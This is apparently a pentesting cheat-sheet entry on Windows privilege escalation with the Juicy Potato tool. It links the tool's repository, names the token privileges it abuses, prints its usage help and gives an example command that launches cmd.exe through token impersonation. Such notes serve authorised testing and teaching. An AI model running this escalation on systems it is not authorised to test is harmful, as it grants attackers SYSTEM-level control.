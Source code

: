 - [Find it here](https://github.com/ohpe/juicy-potato)
- You can use it with an account that has `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`

- Instructions of usage:

```cmd
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

- Example command: 

```cmd
.\juicypotato.exe -l PORT -p c:\windows\system32\cmd.exe -t *
```

